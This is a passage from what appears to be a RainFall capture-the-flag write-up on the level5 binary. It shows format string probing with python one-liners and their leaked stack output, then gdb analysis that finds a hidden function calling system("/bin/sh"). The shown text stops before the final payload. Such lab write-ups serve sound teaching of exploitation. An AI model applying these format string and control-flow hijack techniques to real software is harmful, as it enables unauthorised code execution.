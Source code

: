 ### 3. Test Format String Vulnerability
```bash
level5@RainFall:~$ python -c 'print "%x %x %x %x"' | ./level5
200 b7fd1ac0 b7ff37d0 25207825

level5@RainFall:~$ python -c 'print "AAAA" + "%x " * 10' | ./level5
AAAA200 b7fd1ac0 b7ff37d0 41414141 78252078 20782520 25207825 78252078 20782520 25207825
```

**Format String Confirmation:**
- Format specifiers work - we can read stack values
- Our input "AAAA" (0x41414141) appears in the output
- **Format string vulnerability confirmed** - we have arbitrary memory read/write capability

## Reverse Engineering - The Hidden Function Discovery

### 4. Function Analysis - Discovering the Hidden Code
```bash
level5@RainFall:~$ gdb level5
(gdb) info functions
All defined functions:
Non-debugging symbols:
0x08048380  printf@plt
0x08048390  _exit@plt  
0x080483a0  fgets@plt
0x080483b0  system@plt      ← system() is available!
0x080483d0  exit@plt        ← Current execution path ends here
0x080484a4  o               ← HIDDEN FUNCTION! ⭐
0x080484c2  n               ← Main logic function  
0x08048504  main
```

**Critical Discovery:**
- **Hidden function `o()`** at address `0x080484a4`
- Function `o()` is **never called** in normal program execution
- **system@plt** is available - likely used by the hidden function

### 5. Analyzing the Hidden Function
```bash
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x18,%esp
   0x080484aa <+6>:     movl   $0x80485f0,(%esp)      # Load command string
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>  # system() call! 🎯
   0x080484b6 <+18>:    movl   $0x1,(%esp)
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>

(gdb) x/s 0x80485f0
0x80485f0:       "/bin/sh"

(gdb) x o
0x80484a4 <o>:  0x83e58955
```
